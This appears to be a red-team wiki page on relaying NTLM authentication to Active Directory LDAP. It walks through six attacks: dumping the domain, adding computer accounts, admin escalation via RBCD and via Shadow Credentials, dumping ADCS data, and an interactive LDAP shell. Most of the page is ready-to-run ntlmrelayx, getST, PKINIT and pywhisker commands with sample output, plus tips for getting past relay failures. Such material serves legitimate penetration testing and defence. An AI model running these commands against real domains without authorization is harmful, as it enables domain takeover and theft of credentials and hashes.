


**NTLM relay to LDAP** — LDAP is the directory protocol a Domain Controller speaks to read and write its objects (users, computers, and their attributes). Often overlooked but very powerful: relay a victim's NTLM authentication to a DC's LDAP service and you act as them in the directory — dump the whole domain, create computer accounts, and escalate to admin via RBCD (Resource-Based Constrained Delegation) or Shadow Credentials (planting a certificate on an account so you can log in as it).

**Warning:** Read the Common pitfalls section before attempting any of these attacks.

| Attack | Description |
| --- | --- |
| Attack 1: Dump AD domain information | Responder + user/computer NTLM relay |
| Attack 2: Create a computer account | Responder + user/computer NTLM relay |
| Attack 3: Gain admin privileges through RBCD | Computer NTLM relay + RBCD |
| Attack 4: Gain admin privileges through Shadow Credentials | Computer NTLM relay + Shadow Credentials |
| Attack 5: Dump ADCS information | Responder + user/computer NTLM relay |
| Attack 6: Interactive LDAP shell | NTLM relay -> interactive LDAP shell |

## Discovery

NTLM relay to LDAP will **not** work if:
- Incoming NTLM authentication is received over **SMB** (see note below).
- **LDAP signing** is enforced on the target DC (for `ldap://`).
- **Channel Binding** is configured on the target DC (for `ldaps://`).

**Note:** SMB clients always set `NEGOTIATE_SIGN` to `1`. Over `ldap://` the server then requires signed packets; over `ldaps://` the flag is nonsensical (signing is handled by TLS). Either way the relay fails.

Check LDAP signing and Channel Binding with a domain user (LdapRelayScan):

```bash

LdapRelayScan.py -method 'BOTH' -dc-ip 'DC_IP' -u 'USER_NAME' -p 'USER_PASS'

```

Channel Binding can also be checked without authentication if you have no domain account yet.

## Exploitation

### Common pitfalls

**1. NTLM authentication over HTTP** - HTTP does not support signing/sealing, so `NEGOTIATE_SIGN` is always `0` and no integrity check is triggered server-side (which LDAP would otherwise require). Coerce over HTTP, not SMB.

**2. Incoming connection but no relay** - `ntlmrelayx.py` receives a connection but nothing happens: the client connected to your web server but **refused to authenticate**.

```console

[*] HTTPD: Received connection from 10.10.10.141, attacking target ldaps://10.10.10.142
[*] HTTPD: Received connection from 10.10.10.141, attacking target ldaps://10.10.10.142

```

| Case | Example | Zone | Result |
| --- | --- | --- | --- |
| IP address | `\\10.0.1.100@8000\share` | Internet | No authentication |
| FQDN | `\\FOO.DOMAIN.LOCAL@8000\share` | Internet | No authentication |
| Host name | `\\FOO@8000\share` | Intranet | SSO authentication |

Solutions:
- [LLMNR and NBT-NS Poisoning](../../Poisoning/LLMNR%20and%20NBT-NS%20Poisoning.md) - if you are on the target's subnet.
- [DNS Record Modification](../../Trust%20Attacks/Intra%20Forest%20Attacks/DNS%20Record%20Modification.md) - register your IP in the current DNS zone.

You may also get lucky with an existing DNS record pointing to a non-existent machine on your subnet - just take that IP. If an HTTP proxy (WPAD) allows cross-subnet connections, the attack may work with the IP directly - try it first:

```shell

# get the FQDN of the wpad server
ping wpad
http://wpad.domain.local/wpad.dat

```

If a proxy is defined but the request target is configured to bypass it, authentication is allowed. Look for bypass rules in `wpad.dat` / `proxy.pac`.

**3. Machine account creation** - some attacks below require creating a computer account (see [Computer Account Creation](../../Reconnaissance/Computer%20Account%20Creation%20%28MAQ%29.md)). If you already control a computer account, or a user account with SPNs (see [Kerberoasting](../../Kerberos%20Attacks/Kerberoasting.md)), reuse that instead.

### Attack 1: Dump Active Directory domain information

1. Prepare the relay.

```bash

ntlmrelayx.py -t 'ldap://DC_IP' --no-smb-server -l './recon/' -of './loot/ntlmrelayx'

```

- `--no-smb-server` avoids capturing NTLM over SMB.
- `-l` sets the loot directory for the dump files.
- `-of` also stores NTLM challenge responses (to try cracking them).

2. Coerce NTLM authentication over HTTP - see [Coercing Authentication](../../Coercion/Coercing%20Authentication.md).

### Attack 2: Create a computer account

**Warning:** Fails if computer-account-creation restrictions are in place (see [Computer Account Creation](../../Reconnaissance/Computer%20Account%20Creation%20%28MAQ%29.md)).

1. Prepare the relay.

```bash

ntlmrelayx.py -t 'ldaps://DC' --add-computer --no-dump --no-smb-server

```

2. Coerce NTLM authentication over HTTP - see [Coercing Authentication](../../Coercion/Coercing%20Authentication.md).

3. Cleanup - delete the computer account (see [Computer Account Creation](../../Reconnaissance/Computer%20Account%20Creation%20%28MAQ%29.md)).

### Attack 3: Gain admin privileges through RBCD

Abuse Resource-Based Constrained Delegation to gain admin on an arbitrary machine by capturing its NTLM authentication and relaying it to LDAP.



**Warning:** Fails if computer-account-creation restrictions are in place - but there is a workaround if you already have a computer account (see 1.bis).

1. Prepare the relay (new machine account). By default ntlmrelayx creates a random-named computer account and sets `msDS-AllowedToActOnBehalfOfOtherIdentity` on the target. Use `--add-computer` to give it an explicit name.

```bash

ntlmrelayx.py -t 'ldaps://DC' --http-port 8080 --no-smb-server --delegate-access --add-computer 'COMPUTER_NAME'

```

1.bis Prepare the relay (existing machine account). If you already own a computer account (NT hash or password), reuse it with `--escalate-user`.

```bash

ntlmrelayx.py -t 'ldaps://DC' --http-port 8080 --no-smb-server --delegate-access --escalate-user 'COMPUTER_NAME$'

```

2. Coerce NTLM authentication over HTTP - see [Coercing Authentication](../../Coercion/Coercing%20Authentication.md).

3. Request a Service Ticket for any user on behalf of the target machine.

```bash

getST.py -spn 'cifs/TARGET_FQDN' -impersonate 'ADM_NAME' -dc-ip 'DC_IP' 'DOMAIN/COMPUTER_NAME$'

```

**Note:** `ADM_NAME` can be any domain account with admin privileges on `TARGET` (e.g. `Administrator`). `KDC_ERR_CLIENT_REVOKED` usually means the impersonated account is disabled.

4. Use the Service Ticket to execute commands on `TARGET` - see [Windows Remote Command Execution](../../Lateral%20Movement/Windows%20Remote%20Command%20Execution.md).

5. Cleanup - needs the target computer account's NT hash (obtained during post-ex). Read the attribute, then remove `COMPUTER_NAME$` from it.

```bash

rbcd.py -delegate-to 'TARGET_NAME$' -action 'read' -use-ldaps 'DOMAIN/TARGET_NAME$' -hashes 'TARGET_NT_HASH'
rbcd.py -delegate-to 'TARGET_NAME$' -delegate-from 'COMPUTER_NAME$' -action 'remove' -use-ldaps 'DOMAIN/TARGET_NAME$' -hashes 'TARGET_NT_HASH'

```

### Attack 4: Gain admin privileges through Shadow Credentials

Relay a computer account to configure certificate-based authentication (`msDS-KeyCredentialLink`), then use the certificate for PKINIT to recover the target computer account's NT hash. Unlike domain users, domain computers can modify their own `msDS-KeyCredentialLink`.



Extra prerequisites: Windows Server 2016+ DC and functional level, and a Server Authentication certificate installed on the DC.

1. Prepare the relay.

```bash

ntlmrelayx.py -t 'ldaps://DC_IP' --shadow-credentials --http-port 8080 --no-smb-server

```

**Note:** `KDC has no support for PADATA type` means PKINIT is not configured - see [Pass the Cert](../../ADCS%20Attacks/Pass%20the%20Cert.md).

2. Coerce NTLM authentication over HTTP - see [Coercing Authentication](../../Coercion/Coercing%20Authentication.md).

3. Use PKINIT to get the NT hash.

```bash

gettgtpkinit.py -cert-pfx 'PFX_FILE_PATH' -pfx-pass 'PFX_PASS' -dc-ip 'DC_IP' 'DOMAIN/TARGET' TARGET.ccache
export KRB5CCNAME=TARGET.ccache
getnthash.py 'DOMAIN/TARGET$' -key 'ENCRYPTION_KEY'

```

4. Leverage the computer account's NT hash - see [Computer Account to Local Admin](../../Delegation%20Attacks/Computer%20Account%20to%20Local%20Admin.md).

5. Cleanup - list, inspect, and remove the device from `msDS-KeyCredentialLink`.

```bash

pywhisker.py -d 'DOMAIN' -u 'TARGET_NAME$' -H 'TARGET_NT_HASH' --target 'TARGET_NAME$' --action 'list' --dc-ip 'DC_IP'
pywhisker.py -d 'DOMAIN' -u 'TARGET_NAME$' -H 'TARGET_NT_HASH' --target 'TARGET_NAME$' --action 'remove' --device-id 'DEVICE_GUID' --dc-ip 'DC_IP'

```

### Attack 5: Dump ADCS information

1. Prepare the relay.

```bash

ntlmrelayx.py -t 'ldap://DC_IP' --dump-adcs --http-port 8080 --no-smb-server

```

2. Coerce NTLM authentication over HTTP - see [Coercing Authentication](../../Coercion/Coercing%20Authentication.md).

3. With the ADCS configuration in hand, try [NTLM Relay to ADCS](NTLM%20Relay%20to%20ADCS.md) or [ADCS Configuration Issues](../../ADCS%20Attacks/ADCS%20Configuration%20Issues%20%28ESC1-8%29.md).

### Attack 6: Interactive LDAP shell

`ntlmrelayx.py` has an interactive mode that opens a pseudo LDAP shell with the relayed credentials.

1. Prepare the relay.

```bash

ntlmrelayx.py -t 'ldap://DC_IP' --http-port 80 --no-smb-server -i

```

2. Coerce NTLM authentication over HTTP - see [Coercing Authentication](../../Coercion/Coercing%20Authentication.md).

3. Use built-in LDAP commands. On success, the shell opens on port 11000 (default); run `help` to list commands. Example - upgrade to LDAPS with StartTLS, then create a computer account.

```console

$ nc -v localhost 11000
localhost [127.0.0.1] 11000 (?) open
Type help for list of commands

# start_tls
Sending StartTLS command...
StartTLS succeded, you are now using LDAPS!

# add_computer ATTACK01 SuperP@ss123
Attempting to add a new computer with the name: ATTACK01$
Inferred Domain DN: DC=domain,DC=local
Inferred Domain Name: domain.local
New Computer DN: CN=ATTACK01,CN=Computers,DC=domain,DC=local
Adding new computer with username: ATTACK01$ and password: SuperP@ss123 result: OK

```

## Caution

These attacks can leave artifacts in Active Directory - follow the cleanup step of each attack.

## References

- LdapRelayScan - https://github.com/zyn3rgy/LdapRelayScan
- ntlmrelayx.py - https://github.com/fortra/impacket
- pywhisker - https://github.com/ShutdownRepo/pywhisker
- PKINITtools - https://github.com/dirkjanm/PKINITtools
- The Hacker Recipes - NTLM Relay - https://www.thehacker.recipes/ad/movement/ntlm/relay
- hackndo - https://en.hackndo.com/ntlm-relay/
